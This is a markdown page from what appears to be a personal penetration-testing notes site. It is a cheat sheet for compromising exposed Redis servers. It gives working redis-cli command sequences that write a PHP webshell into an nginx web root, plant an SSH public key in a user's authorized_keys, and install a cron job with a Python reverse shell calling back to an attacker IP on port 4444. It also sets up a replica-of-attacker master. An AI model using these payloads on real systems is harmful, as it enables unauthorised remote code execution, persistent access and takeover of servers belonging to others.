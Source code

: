 ```yaml
---
### The title for the content.
title : "Redis"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "redis"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Redis tomfoolery."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "redis"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Redis

If you can access a reddis instance there might be a couple of fun things you can do.

### Webshell

You must know the path of the Web site folder:

```bash
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

### SSH

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.85.0.52 -x set givshellplox
4. Save the public key to the authorized_keys file on redis server:

```bash
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /home/user/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

### Reverse shell Crontab

```bash
root@machine:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last example is for Ubuntu, for Centos, the above command should be: redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

### Master-Slave Module

Make our redis server master in the cluster. Make vuln server our slave.

```bash
redis-cli -h 10.10.10.10 -p 6379
slaveof 10.85.0.51 6379
```

```bash
redis-cli -h 10.10.10.11 -p 6379
set mykey hello
set mykey2 helloworld
```
